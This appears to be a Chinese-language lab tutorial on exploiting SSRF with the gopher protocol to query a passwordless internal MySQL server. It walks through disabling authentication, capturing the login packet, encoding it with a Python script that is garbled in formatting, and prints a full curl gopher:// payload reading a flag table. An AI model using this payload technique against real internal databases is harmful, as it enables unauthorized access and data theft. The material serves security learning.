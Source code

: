 ```yaml
---
title: "gopher 攻击内网mysql"
id: zhfly3583
---
```


#### gopher 攻击内网mysql

> MySQL有密码和无密码的认证方式不一样，无密码认证时直接发送TCP/IP数据包即可访问，有密码数据包中存在加盐加密。如果内网中的mysql数据库存在无密码的用户，可结合gopher协议进行攻击。

首先配置数据库，kali默认安装的为MariaDB，配置路径与mysql不同；

```
#进入mysql命令行，设置无密码：
SET PASSWORD FOR root@localhost=PASSWORD('');
#修改配置文件：
vim /etc/mysql/mariadb.conf.d/50-server.cnf，添加skip-grant-tables 
```

在kali下打开wireshark，监听`any`网卡

执行命令

```
mysql -h127.0.0.1 -uroot -p#必须指定-h，否则流量不走网卡，无法抓取
select flag from ssrf.flag;
exit; 
```

筛选出mysql数据包

![image](../img/c7577d2848ef2aeb724b55fb104fd0f6.png)

跟踪TCP流，选取request请求，并显示为原始数据

![image](../img/9d844b86308e0773f00929b44526b6f4.png)

编码为gopher协议格式

```
#encoding:utf-8

def result(s):

a=[s[i:i+2] for i in xrange(0,len(s),2)]#两两一组

return “curl gopher://127.0.0.1:3306/_%” + “%”.join(a) `if **name** == ‘**main**’:

import sys

s=sys.argv[1]

print result(s)` 
```

得到payload

```
curl gopher://127.0.0.1:3306/_%ae%00%00%01%85%a6%3f%20%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%31%30%33%38%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%36%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%16%00%00%00%03%73%65%6c%65%63%74%2a%66%72%6f%6d%20%73%73%72%66%2e%66%6c%61%67%01%00%00%00%01 --output - > mysql.txt 
```

使用strings命令读取mysql.txt，获得输出结果

```
strings mysql.txt 
```

![image](../img/04e0a08c7c60ecf8defd2129946f52fe.png)